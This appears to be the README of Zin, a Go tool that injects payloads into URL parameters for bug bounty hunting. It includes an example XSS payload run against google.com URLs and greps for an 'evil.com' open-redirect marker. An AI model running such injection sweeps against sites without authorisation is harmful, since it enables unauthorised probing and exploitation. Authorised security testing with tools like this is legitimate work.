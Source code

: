 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# Zin
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/16031ae21e5b98c9c936de492be4cccf.gif)](https://gyazo.com/16031ae21e5b98c9c936de492be4cccf)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup

### Arguments
```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
      the concurrency (default 20)
  -p string
      the payload to be used
  -pL string
      the list of payloads to be used
```


### Install

`$ git clone https://github.com/ethicalhackingplayground/Zin && cd Zin && go build`



#### Inject Multiple Payloads
`$ cat hosts | waybackurls | grep "&" | ./Zin -c 80 -pL <payloadfile>`

#### Subdomain Scanning

`$ subfinder -dL domains --silent | gau | ./Zin -c 80 -p <payload>`


#### Only Test Parameters

`$ echo "google.com" | waybackurls | grep "&" | ./zin -c 80 -p '"><script>alert(document.domain)</script<"'`

#### Multiple Hosts

`$ cat hosts | gau | ./Zin -c 80 -p <payload>`

#### Grepping for Patterns

`$ cat output/responses.txt | grep --color "Location: evil.com"`

#### Detecting Process

`$ cat output/responses.txt | grep --color "Location: evil.com"`

`$ cat output/responses.txt | grep --color "<script>alert(document.domain></script>"`

**If you get a bounty please support by buying me a coffee**

<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

